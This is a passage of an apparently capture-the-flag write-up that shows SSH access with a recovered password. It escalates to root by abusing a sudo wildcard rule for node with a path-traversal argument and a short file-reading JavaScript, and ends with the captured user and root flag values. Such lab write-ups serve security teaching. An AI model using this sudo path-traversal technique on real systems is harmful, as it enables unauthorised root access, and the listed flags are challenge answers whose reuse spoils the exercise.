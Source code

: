 Password: *IHeardPassphrasesArePrettySecure*

Since we recieved the user *angoose* we can try the recently aquired password and try to ssh into the user.

We succefully log into to the user and aquire the *user.txt* flag.

![image](https://user-images.githubusercontent.com/85443537/227793449-0b6b5abe-c9c4-4336-9047-8d83cf5dc0a8.png)

## Inside the angoose SSH shell

We type the command *sudo -l* to display what we can run as sudo using angoose user.
We find that we can use */usr/bin/node /usr/local/scripts/\*.js* to read files with root permission.

![image](https://user-images.githubusercontent.com/85443537/227794154-5f45da8b-0dc7-418c-86f2-7cb49dcfdb3a.png)

We create a new file in angoose directory and call it *esc.js*.
We then paste the following code and save the file.

const fs = require('fs')\
fs.readFile('/root/root.txt', 'utf8', (err, data) => {\
   if (err) throw err;\
      console.log(data);\
})


We run the following command to read *root.txt* flag using our javascript:

Command: *sudo /usr/bin/node /usr/local/scripts/../../../home/angoose/esc.js*

![image](https://user-images.githubusercontent.com/85443537/227794600-ee312f43-a99f-463e-a9e7-986aa4592e52.png)




# Goals

* USER FLAG: 191476b128dd6b641b7c5721cfb8646b
* ROOT FLAG: fe430503d2545b9a19898a284f404c5a

